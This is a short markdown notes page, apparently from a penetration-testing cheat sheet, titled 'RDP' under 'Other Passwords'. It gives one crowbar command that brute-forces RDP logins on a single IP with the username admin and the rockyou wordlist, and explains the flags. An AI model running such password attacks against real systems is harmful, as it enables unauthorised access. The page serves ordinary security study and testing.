 ```yaml
---
title: RDP
parent: Other Passwords
layout: default
nav_order: 4
---
```


`crowbar -b rdp -s 10.11.0.22/32 -u admin -C /usr/share/seclists/rockyou_utf8.txt -n 1`\
(C password list, n number of threads, for single IP use /32)